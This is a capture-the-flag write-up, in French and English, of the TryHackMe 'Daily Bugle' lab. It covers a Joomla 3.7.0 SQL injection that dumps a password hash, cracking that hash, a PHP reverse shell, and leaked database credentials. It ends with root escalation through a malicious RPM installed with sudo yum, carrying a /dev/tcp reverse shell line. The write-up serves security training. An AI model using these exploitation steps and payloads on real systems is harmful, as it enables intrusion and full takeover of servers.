






# Daily Bugle

Compromise a Joomla CMS account via SQLi, practise cracking hashes and escalate your privileges by taking advantage of yum.

Level: Hard

Type: Linux machine

##  Scanning

``nmap -A -sV $TARGET``

        PORT     STATE SERVICE VERSION
        22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
        | ssh-hostkey: 
        |   2048 68:ed:7b:19:7f:ed:14:e6:18:98:6d:c5:88:30:aa:e9 (RSA)
        |   256 5c:d6:82:da:b2:19:e3:37:99:fb:96:82:08:70:ee:9d (ECDSA)
        |_  256 d2:a9:75:cf:2f:1e:f5:44:4f:0b:13:c2:0f:d7:37:cc (ED25519)
        80/tcp   open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.6.40)
        |_http-generator: Joomla! - Open Source Content Management
        | http-robots.txt: 15 disallowed entries 
        | /joomla/administrator/ /administrator/ /bin/ /cache/ 
        | /cli/ /components/ /includes/ /installation/ /language/ 
        |_/layouts/ /libraries/ /logs/ /modules/ /plugins/ /tmp/
        |_http-server-header: Apache/2.4.6 (CentOS) PHP/5.6.40
        |_http-title: Home
        3306/tcp open  mysql   MariaDB (unauthorized)
        No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
        TCP/IP fingerprint:
        OS:SCAN(V=7.80%E=4%D=5/12%OT=22%CT=1%CU=34260%PV=Y%DS=1%DC=T%G=Y%TM=6A02E99
        OS:E%P=x86_64-pc-linux-gnu)SEQ(SP=106%GCD=1%ISR=106%TI=Z%CI=I%II=I%TS=A)SEQ
        OS:(SP=106%GCD=1%ISR=106%TI=Z%CI=I%TS=A)SEQ(SP=106%GCD=1%ISR=106%TI=Z%II=I%
        OS:TS=A)SEQ(SP=106%GCD=1%ISR=106%TI=Z%TS=A)OPS(O1=M2301ST11NW7%O2=M2301ST11
        OS:NW7%O3=M2301NNT11NW7%O4=M2301ST11NW7%O5=M2301ST11NW7%O6=M2301ST11)WIN(W1
        OS:=68DF%W2=68DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)ECN(R=Y%DF=Y%T=40%W=6903%O
        OS:=M2301NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=
        OS:N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A
        OS:=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%D
        OS:F=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL
        OS:=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

        Network Distance: 1 hop

### Access the web server, who robbed the bank?

        Spiderman

### What is the Joomla version?

**Version 3.7.0 et après des recherches elle est vulnérable à une SQL injection**

`python3 main.py --host $TARGET`

        (                    )   )   )     )   (        )   )     )                       (       
        )\  (   (  (      ( /(( /(( /(  ( /(   )\ (  ( /(( /(  ( /(    (              )   )\   )  
        (((_) )\  )\ )\ ___ )(_))\())\()) )\())_((_))\ )\())\()) )\())__ )\  (    (    (   ((_| /(  
        )\___((_)((_|(_)___((_)((_)((_)\ ((_)\___|_((_|(_)((_)\ ((_)\___((_) )\   )\   )\  '_ )(_)) 
        ((/ __\ \ / /| __|  |_  )  (_) (_)__  /   ( _ )/ _(_) (_)__  /  _ | |((_) ((_)_((_))| ((_)_  
        | (__ \ V / | _|    / / () || |   / /    / _ \_, /| |   / /  | || / _ \/ _ \ '  \() / _` | 
        \___| \_/  |___|  /___\__/ |_|  /_/     \___/ /_/ |_|  /_/    \__/\___/\___/_|_|_||_\__,_| 
        
        >> Target : http://10.112.143.213:80/index.php
        >> CSRF token : 83e4fceefba67602b2f79259ca3eb540
        >> http://10.112.143.213:80/index.php is vulnerable to SQLI
        >> Database version detected : 5.5.64-MariaDB
        >> Current database : joomla
        >> Show tables in database joomla
        >> ----------------------------------------------------------------
        >> |                           table_name                         |
        >> ----------------------------------------------------------------
        >> |                           #__assets                          |
        >> |                        #__associations                       |
        >> |                       #__banner_clients                      |
        >> |                        #__banner_tracks                      |
        >> |                           #__banners                         |
        >> |                         #__categories                        |
        >> |                       #__contact_details                     |
        >> |                           #__content                         |
        >> |                      #__content_frontpage                    |
        >> |                       #__content_rating                      |
        >> |                        #__content_types                      |
        >> |                     #__contentitem_tag_map                   |
        >> |                      #__core_log_searches                    |
        >> |                         #__extensions                        |
        >> |                           #__fields                          |
        >> |                      #__fields_categories                    |
        >> |                        #__fields_groups                      |
        >> |                        #__fields_values                      |
        >> |                       #__finder_filters                      |
        >> |                        #__finder_links                       |
        >> |                     #__finder_links_terms0                   |
        >> |                     #__finder_links_terms1                   |
        >> |                     #__finder_links_terms2                   |
        >> |                     #__finder_links_terms3                   |
        >> |                     #__finder_links_terms4                   |
        >> |                     #__finder_links_terms5                   |
        >> |                     #__finder_links_terms6                   |
        >> |                     #__finder_links_terms7                   |
        >> |                     #__finder_links_terms8                   |
        >> |                     #__finder_links_terms9                   |
        >> |                     #__finder_links_termsa                   |
        >> |                     #__finder_links_termsb                   |
        >> |                     #__finder_links_termsc                   |
        >> |                     #__finder_links_termsd                   |
        >> |                     #__finder_links_termse                   |
        >> |                     #__finder_links_termsf                   |
        >> |                       #__finder_taxonomy                     |
        >> |                     #__finder_taxonomy_map                   |
        >> |                        #__finder_terms                       |
        >> |                     #__finder_terms_common                   |
        >> |                        #__finder_tokens                      |
        >> |                   #__finder_tokens_aggregate                 |
        >> |                        #__finder_types                       |
        >> |                          #__languages                        |
        >> |                            #__menu                           |
        >> |                         #__menu_types                        |
        >> |                          #__messages                         |
        >> |                        #__messages_cfg                       |
        >> |                           #__modules                         |
        >> |                        #__modules_menu                       |
        >> |                          #__newsfeeds                        |
        >> |                          #__overrider                        |
        >> |                    #__postinstall_messages                   |
        >> |                       #__redirect_links                      |
        >> |                           #__schemas                         |
        >> |                           #__session                         |
        >> |                            #__tags                           |
        >> |                       #__template_styles                     |
        >> |                          #__ucm_base                         |
        >> |                         #__ucm_content                       |
        >> |                         #__ucm_history                       |
        >> |                        #__update_sites                       |
        >> |                   #__update_sites_extensions                 |
        >> |                           #__updates                         |
        >> |                          #__user_keys                        |
        >> |                         #__user_notes                        |
        >> |                        #__user_profiles                      |
        >> |                     #__user_usergroup_map                    |
        >> |                         #__usergroups                        |
        >> |                            #__users                          |
        >> |                       #__utf8_conversion                     |
        >> |                         #__viewlevels                        |
        >> ----------------------------------------------------------------
        >> 
        >> 
        >> Describe table users
        >> ----------------------------------------------------------------
        >> |                          column_name                         |
        >> ----------------------------------------------------------------
        >> |                               id                             |
        >> |                              name                            |
        >> |                            username                          |
        >> |                             email                            |
        >> |                            password                          |
        >> |                             block                            |
        >> |                           sendEmail                          |
        >> |                          registerDate                        |
        >> |                         lastvisitDate                        |
        >> |                           activation                         |
        >> |                             params                           |
        >> |                         lastResetTime                        |
        >> |                           resetCount                         |
        >> |                             otpKey                           |
        >> |                              otep                            |
        >> |                          requireReset                        |
        >> ----------------------------------------------------------------
        >> 
        >> 
        >> SELECT (id, name, username, email, password, block, sendEmail, registerDate, lastvisitDate, activation, params, lastResetTime, resetCount, otpKey, otep, requireReset) FROM #__users
        >> --------------------------------------------------------------------------------------------------------------------------------
        >> id, name, username, email, password, block, sendEmail, registerDate, lastvisitDate, activation, params, lastResetTime, resetCount, otpKey, otep, requireReset
        >> --------------------------------------------------------------------------------------------------------------------------------
        >> 811 ||| Super User ||| jonah ||| jonah@tryhackme.com ||| $2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm ||| 0 ||| 1 ||| 2019-12-14 20:43:49 ||| 2019-12-15 23:58:06 ||| 0 |||  ||| 0000-00-00 00:00:00 ||| 0 |||  |||  ||| 0
        >> -------------------

**Hash du mot de passe du compte jonah**

`john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt`

        Warning: detected hash type "bcrypt", but the string is also recognized as "bcrypt-opencl"
        Use the "--format=bcrypt-opencl" option to force loading these as that type instead
        Using default input encoding: UTF-8
        Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
        Cost 1 (iteration count) is 1024 for all loaded hashes
        Will run 2 OpenMP threads
        Press 'q' or Ctrl-C to abort, almost any other key for status
        spiderman123    (?)

**Connecté**

**Reverse shell dans un bloc php du index.php**

`nc -tvln 12345`

        Listening on 0.0.0.0 12345
        Connection received on 10.112.143.213 41596
        Linux dailybugle 3.10.0-1062.el7.x86_64 #1 SMP Wed Aug 7 18:08:02 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
        05:34:24 up 52 min,  0 users,  load average: 0.00, 0.01, 0.05
        USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
        uid=48(apache) gid=48(apache) groups=48(apache)
        sh: no job control in this shell
        sh-4.2$ 

**Fichier configuration.php dans /var/www/html**

`cat configuration.php`

        <?php
        class JConfig {
                public $offline = '0';
                public $offline_message = 'This site is down for maintenance. Please check back again soon.';
                public $display_offline_message = '1';
                public $offline_image = '';
                public $sitename = 'The Daily Bugle';
                public $editor = 'tinymce';
                public $captcha = '0';
                public $list_limit = '20';
                public $access = '1';
                public $debug = '0';
                public $debug_lang = '0';
                public $dbtype = 'mysqli';
                public $host = 'localhost';
                public $user = 'root';
                public $password = 'nv5uz9r3ZEDzVjNu';
                public $db = 'joomla';
                public $dbprefix = 'fb9j5_';
                public $live_site = '';
                public $secret = 'UAMBRWzHO3oFPmVC';
                public $gzip = '0';
                public $error_reporting = 'default';
                public $helpurl = 'https://help.joomla.org/proxy/index.php?keyref=Help{major}{minor}:{keyref}';
                public $ftp_host = '127.0.0.1';
                public $ftp_port = '21';
                public $ftp_user = '';
                public $ftp_pass = '';
                public $ftp_root = '';
                public $ftp_enable = '0';
                public $offset = 'UTC';
                public $mailonline = '1';
                public $mailer = 'mail';
                public $mailfrom = 'jonah@tryhackme.com';
                public $fromname = 'The Daily Bugle';
                public $sendmail = '/usr/sbin/sendmail';
                public $smtpauth = '0';
                public $smtpuser = '';
                public $smtppass = '';
                public $smtphost = 'localhost';
                public $smtpsecure = 'none';
                public $smtpport = '25';
                public $caching = '0';
                public $cache_handler = 'file';
                public $cachetime = '15';
                public $cache_platformprefix = '0';
                public $MetaDesc = 'New York City tabloid newspaper';
                public $MetaKeys = '';
                public $MetaTitle = '1';
                public $MetaAuthor = '1';
                public $MetaVersion = '0';
                public $robots = '';
                public $sef = '1';
                public $sef_rewrite = '0';
                public $sef_suffix = '0';
                public $unicodeslugs = '0';
                public $feed_limit = '10';
                public $feed_email = 'none';
                public $log_path = '/var/www/html/administrator/logs';
                public $tmp_path = '/var/www/html/tmp';
                public $lifetime = '15';
                public $session_handler = 'database';
                public $shared_session = '0'
        }

**Mot de passe: nv5uz9r3ZEDzVjNu**

``ssh jjameson@$TARGET``

        The authenticity of host '10.112.143.213 (10.112.143.213)' can't be established.
        ECDSA key fingerprint is SHA256:apAdD+3yApa9Kmt7Xum5WFyVFUHZm/dCR/uJyuuCi5g.
        Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
        Warning: Permanently added '10.112.143.213' (ECDSA) to the list of known hosts.
        jjameson@10.112.143.213's password: 
        Last login: Tue May 12 05:42:00 2026
        [jjameson@dailybugle ~]$ 

`cat user.txt`

**USER FLAG**

## Élévation de privilège

`sudo -l`

        Matching Defaults entries for jjameson on dailybugle:
        !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin, env_reset, env_keep="COLORS
        DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS", env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS
        LC_CTYPE", env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY
        LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET
        XAUTHORITY", secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

        User jjameson may run the following commands on dailybugle:
        (ALL) NOPASSWD: /usr/bin/yum

[Élevation de privilège via SUDO NOPASSWD YUM](https://gtfobins.org/gtfobins/yum/#command)

`echo "sh -i >& /dev/tcp/10.112.111.253/9001 0>&1 ">x.sh`

`fpm -n root -s dir -t rpm -a all --before-install ./x.sh -C /tmp/empty .`

        Created package {:path=>"root-1.0-1.noarch.rpm"}

`python3 -m http.server`

`wget http://10.112.111.253:8000/root-1.0-1.noarch.rpm`

`sudo yum localinstall -y root-1.0-1.noarch.rpm`

        Loaded plugins: fastestmirror
        Examining root-1.0-1.noarch.rpm: root-1.0-1.noarch
        Marking root-1.0-1.noarch.rpm to be installed
        Resolving Dependencies
        --> Running transaction check
        ---> Package root.noarch 0:1.0-1 will be installed
        --> Finished Dependency Resolution

        Dependencies Resolved

        ============================================================================================================
        Package              Arch                   Version               Repository                          Size
        ============================================================================================================
        Installing:
        root                 noarch                 1.0-1                 /root-1.0-1.noarch                 0.0  

        Transaction Summary
        ============================================================================================================
        Install  1 Package

        Installed size: 0  
        Downloading packages:
        Running transaction check
        Running transaction test
        Transaction test succeeded
        Running transaction

`nc -tvln 9001`

        Listening on 0.0.0.0 9001
        Connection received on 10.112.143.213 34716
        sh-4.2# id
        id
        uid=0(root) gid=0(root) groups=0(root)
        sh-4.2# cat root.txt
        cat root.txt

**ROOT FLAG**